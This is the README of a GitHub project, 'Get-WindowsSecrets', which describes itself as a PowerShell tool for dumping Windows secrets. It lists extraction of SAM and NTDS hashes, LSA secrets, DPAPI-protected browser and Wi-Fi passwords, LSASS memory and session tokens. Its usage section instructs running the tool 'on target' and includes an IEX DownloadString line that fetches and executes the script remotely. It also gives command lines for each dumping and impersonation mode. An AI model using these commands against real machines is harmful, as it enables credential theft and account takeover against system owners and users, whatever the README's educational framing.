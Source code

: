 # MindMap

[MindMap](<https://github.com/YRazafim/Get-WindowsSecrets/blob/main/Windows Secrets.pdf>) with pseudo-code for a high-level overview.

# Why

To understand how to dump Windows Secrets internally.<br/>
Powershell implementation of [Secretsdump](<https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py>) and [Pypykatz](<https://github.com/skelsec/pypykatz>).<br/>
The script work (or should work!) on a local Windows machine:
  * Powershell v2 to latest
  * Windows NT 6.0 to latest

It is not intended to bypass AVs/EDRs and you have to be administrator on the computer.<br/>
The code is commented to understand each process.

Currently It can:<br/>
   * Dump BootKey
   * Compute Hashed BootKey
   * Dump SAM
   * Dump LSA Secrets
      *	$MACHINE.ACC = Machine account password in clear text if computer is joined to a domain<br/>
      * DefaultPassword = Clear text password when autologon is configured for an account<br/>
      * NL$KM = Secret key in clear text for decrypting Cached Domain Credentials<br/>
      * DPAPI_SYSTEM = System User PreKey and System Machine PreKey in clear text for decrypting System User MasterKey files and System Machine MasterKey files (DPAPI)<br/>
      * \_SC\_&lt;ServiceName&gt; = Account password for Windows Services (not Scheduled Tasks) in clear text<br/>
      * ASPNET_WP_PASSWORD = Password for .NET services in clear text<br/>
      * L$_SQSA_S-&lt;SID&gt; = Clear text answers for Windows Security Questions
   * Dump Cached Domain Credentials
   * Dump DPAPI Secrets<br/>
      * Wi-Fi passwords<br/>
      * Chrome cookies/passwords<br/>
      * Vault Credential Manager passwords (VPOL and VCRD files)
   * Dump VNC passwords (RealVNC, TightVNC, TigerVNC, UltraVNC)
   * Dump NTDS.dit (Shadow Copy and parsing as ESE format)
      * LM and NT Hashes
      * Domain Backup Keys
   * Dump LSASS (ProcOpen and DupHandle methods)
   * List Session Tokens and Impersonate (ImpersonateLoggedOnUser()/CreateProcessWithToken()/CreateProcessAsUser())

# How it works

Download the script on target and from Powershell:
```
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/YRazafim/Get-WindowsSecrets/main/Get-WindowsSecrets.ps1")
. <Path>\Get-WindowsSecrets.ps1;
Get-WindowsSecrets -SAM
Get-WindowsSecrets -LSA
Get-WindowsSecrets -CachedDomainCreds
Get-WindowsSecrets -VNC
Get-WindowsSecrets -NTDS
Get-WindowsSecrets -NTDS -ExportDomainBackupKey
Get-WindowsSecrets -SessionTokens
Get-WindowsSecrets -ActivatePrivilege "SeShutdownPrivilege"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "ImpersonateLoggedOnUser"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessWithToken"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessAsUser"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessAsUser" -Command "whoami"
Get-WindowsSecrets -LSASS
Get-WindowsSecrets -DPAPI
Get-WindowsSecrets -DPAPI -InUserContext
Get-WindowsSecrets -DPAPI -InUserContext -NoMasterKeysDecryption
Get-WindowsSecrets -DPAPI -Creds 'User1:Pwd1/User2@Domain:Pwd2' -NTHashes 'User1:HexNTHash1/User2@Domain:HexNTHash2'
Get-WindowsSecrets -DPAPI -Creds 'User1:Pwd1/User2@Domain:Pwd2' -NTHashes 'User1:HexNTHash1/User2@Domain:HexNTHash2' -SkipLSASS
Get-WindowsSecrets -DPAPI -Creds 'User1:Pwd1/User2@Domain:Pwd2' -NTHashes 'User1:HexNTHash1/User2@Domain:HexNTHash2' -SkipLSASS -SkipNTDS
```

Creds and NTHashes parameters helped for DPAPI only (If you compromised these secrets for a user).
